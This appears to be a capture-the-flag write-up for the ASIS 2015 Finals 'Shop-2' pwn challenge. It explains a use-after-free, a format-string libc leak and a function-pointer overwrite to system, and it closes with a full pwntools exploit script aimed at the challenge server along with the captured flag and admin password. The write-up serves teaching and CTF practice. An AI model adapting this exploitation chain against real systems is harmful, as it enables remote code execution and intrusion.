 ```yaml
---
layout: post
title: "ASIS 2015 Finals: (pwn300) Shop-2"
modified: 2015-10-14
tags: asis, asis2015finals, pwn
---
```


The second part of the challenge was exploiting a UAF (use-after-free) vulnerability.

This could be triggered if the admin deleted a "Bragisdumu" (btw what is a Bragisdumu!? :D).

But there were some restrictions, for example: the admin could only delete items if there were no stock of it, so we had to buy them first. But you could not buy any amount of them, only 16, so you had to buy the Knight Rider one.

Although the program tried to nullify the object, but it did not nullify the pointer, but the active field of the pointed object. And then deleted the object. So it did not trigged the vulnerability by itself, you also had to use a long enough username + password.

To make the exploit stable I had to leak some addresses. To do this I overwrite the whole item structure until the ptr value:

{% highlight text %}
00000000 Item            struc ; (sizeof=0x88)   ; XREF: .data:globItemStructs9r
00000000 idx             dd ?                    ; XREF: .data:globItemPtrs16o
00000004 inited          db ?
00000005 name            db 100 dup(?)
00000069 mostPopular     db ?
0000006A align1          db 6 dup(?)
00000070 price           dq ?
00000078 stock           dd ?
0000007C align2          dd ?
00000080 ptr             dq ?
00000088 Item            ends
{% endhighlight %}

This way the address of the KnightRider preview function is leaked out, then I logged out and logged in with username which overwrite the preview function call (0x1275) to printf in the PLT (0xda0). As the parameter for this call is the Item structure's address which is fully controlled by me I could sent in a format string which contained a lot of "%p"'s, thus leaking out the libc base address from the stack (among other things).

Then in the next round I simple overwrite the pointer with the calculated system address and got a shell :)

The flag was:
{% highlight text %}
ASIS{5249b4cc1527739c57fbd04ab14292ca}
{% endhighlight %}

### Exploit code

{% highlight python %}
#!/usr/bin/env python
from pwn import *
import re

adminPass = "ASIS{304b0f16eb430391c6c86ab0f3294211}"

r = remote('185.106.120.220', 1337)

r.send("guest\nguest\n2\n3\n2\n3\n8\nadmin\n"+adminPass+"\n5\n3\n8\nguest\nguest"+"A"*31+"\x01"+"C"*267+"\n3\n")
result = r.recvuntil("your orders?")
KnightRiderAddrStr = re.search('CCCC+(.*?), price', result, re.DOTALL).group(1) + '\x00\x00'
print 'KnightRider str = %r' % KnightRiderAddrStr
KnightRiderAddr = u64(KnightRiderAddrStr)
printfAddr = KnightRiderAddr - 0x1275 + 0xda0
print 'KnightRider addr = %x' % KnightRiderAddr
print 'printf addr = %x' % printfAddr

fs="%p|"*30;
r.send("0\n8\nguest\nguest"+"A"*31+"\x01|"+fs+"D"*(122-len(fs))+p64(printfAddr)+"\n3\n1\n")
r.recvuntil("your orders?")
leaks = r.recvline().split('|')
print leaks
baseLeak = int(leaks[4][2:], 16)
print "leak = %x" % baseLeak
systemAddr = baseLeak - 0x7ffff7dd4060 + 0x7ffff7a5b640
print "system = %x" % systemAddr

r.send("8\nguest\nguest"+"A"*27+"sh\x00\x00\x01"+"C"*123+p64(systemAddr)+"\n3\n1\n")
r.recvuntil("your orders?")
r.send('cat flag\n')
print 'Flag =' + r.recvline()
r.interactive()
{% endhighlight %}